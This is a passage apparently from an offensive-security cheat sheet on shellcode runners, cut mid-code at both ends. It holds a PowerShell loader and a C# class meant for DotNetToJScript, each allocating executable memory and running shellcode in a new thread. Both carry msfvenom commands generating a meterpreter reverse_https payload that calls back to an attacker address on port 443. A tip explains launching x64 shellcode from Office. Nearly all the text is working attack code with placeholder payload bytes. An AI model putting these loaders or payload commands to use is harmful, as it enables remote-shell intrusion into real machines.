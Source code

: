 ```powershell
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0x31,0x33,...,0x33,0x37
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```
{% endcode %}

{% hint style="info" %}
In order to run x64 shellcode from a 32-bit application (e. g., MS Word), you may want to specify the path to 64-bit PowerShell binary through [Sysnative](https://www.samlogic.net/articles/sysnative-folder-64-bit-windows.htm) alias.
{% endhint %}




## C\#



### C\# DLL to Jscript

- [https://github.com/tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)

{% code title="TestClass.cs" %}
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f csharp
        byte[] buf = new byte[???] {
        0x31,0x33,...,0x33,0x37 };

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, buf.Length);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
```